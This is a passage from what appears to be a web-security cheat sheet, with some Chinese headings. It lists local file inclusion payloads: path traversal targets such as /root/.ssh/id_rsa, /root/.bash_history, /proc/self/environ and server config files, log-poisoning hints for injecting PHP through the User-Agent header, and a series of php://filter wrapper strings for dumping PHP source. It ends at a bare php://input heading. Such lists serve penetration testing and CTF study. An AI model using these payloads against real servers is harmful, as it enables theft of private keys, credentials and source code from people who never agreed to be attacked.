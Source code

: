 - `/etc/apache2/apache2.conf`
- `/etc/apache2/httpd.conf`
- `/etc/apache2/sites-available/000-default.conf`
- `/usr/local/etc/apache2/httpd.conf`
- `/etc/nginx/conf.d/default.conf`
- `/etc/nginx/nginx.conf`
- `/etc/nginx/sites-enabled/default`
- `/etc/nginx/sites-enabled/default.conf`
- `/proc/net/fib_trie`
- `.htaccess`
- `/root/.bash_history`
- `/root/.ssh/id_rsa`
- `/root/.ssh/authorized_keys`

### Windows

- `C:/Windows/win.ini`
- `C:/boot.ini`
- `C:/apache/logs/access.log`
- `../../../../../../../../../boot.ini/.......................`
- `C:/windows/system32/drivers/etc/hosts`

## 環境變數

- `../../../../proc/self/environ`
  - HTTP_User_Agent塞php script

## log文件

- apache log
- mysql log
- mail log
- ssh log
  - `/var/log/auth.log`


## php://filter

- `php://filter/convert.base64-encode/resource=index.php`
- `php://filter/convert.base64-decode/resource=index.php`
- `php://filter/read=string.rot13/resource=index.php`
- `php://filter/zlib.deflate/resource=index.php`
- `php://filter/zlib.inflate/resource=index.php`
- `php://filter/convert.quoted-printable-encode/resource=index.php`
- `php://filter/read=string.strip_tags/resource=php://input`
- `php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=index.php`
- `php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=index.php`
- ...

## php://input
